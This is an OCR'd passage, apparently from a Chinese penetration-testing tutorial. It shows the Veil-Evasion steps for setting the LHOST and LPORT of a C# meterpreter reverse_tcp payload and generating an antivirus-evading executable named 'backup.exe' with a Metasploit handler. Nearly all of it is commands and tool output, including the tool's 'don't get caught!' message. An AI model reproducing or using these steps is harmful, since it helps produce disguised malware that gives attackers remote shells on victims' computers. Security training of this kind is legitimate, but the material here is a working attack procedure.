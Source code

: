 ```
  back      go to the main menu
  exit      exit Veil
 [>] Please enter a command: 
```

输出信息显示了 rev_tcp 攻击载荷可配置的选项参数。这里默认指定的本地端口（LPORT）是 4444，LHOST 选项还没有配置。

（3）配置 LHOST 选项参数，并查看攻击载荷的详细信息。执行命令如下所示：

```
[>] Please enter a command: set LHOST 192.168.6.103
[>] Please enter a command: info
===============================================
 Veil-Evasion | [Version]: 2.4.3
===============================================
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================
Payload information:
  Name:         cs/meterpreter/rev_tcp
  Language:     cs
  Rating:       Excellent
  Description:  pure windows/meterpreter/reverse_tcp stager, no shellcode
Required Options:
Name             Current Value  Description
 ----            ------------- --------------------------
 LHOST           192.168.6.100  IP of the metasploit handler
 LPORT           4444           Port of the metasploit handler
 compile_to_exe  Y              Compile to an executable 
```

从输出的信息中，可以看到 rev_tcp 攻击载荷的详细信息，如攻击载荷名、语言、级别及配置的选项参数等。

（4）此时，使用 generate 命令生成载荷文件。执行命令如下所示：

```
[>] Please enter a command: generate
===============================================
 Veil-Evasion | [Version]: 2.4.3
===============================================
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================
[*] Press [enter] for 'payload'
 [>] Please enter the base name for output files: backup  #指定输出文件名 
```

在以上命令中指定一个文件名为 backup。然后按下回车键，将显示如下所示的信息：

```
 [*] Executable written to: /root/veil-output/compiled/backup.exe
Language:            cs
 Payload:            cs/meterpreter/rev_tcp
 Required Options:   LHOST=192.168.6.103 LPORT=4444 compile_to_exe=Y
 Payload File:       /root/veil-output/source/backup.cs
 Handler File:       /root/veil-output/handlers/backup_handler.rc
[*] Your payload files have been generated, don't get caught!
 [!] And don't submit samples to any online scanner! ;)
[>] press any key to return to the main menu: 
```


 [Web]: https://www.veil-framework.com | [Twitter]: @VeilFramework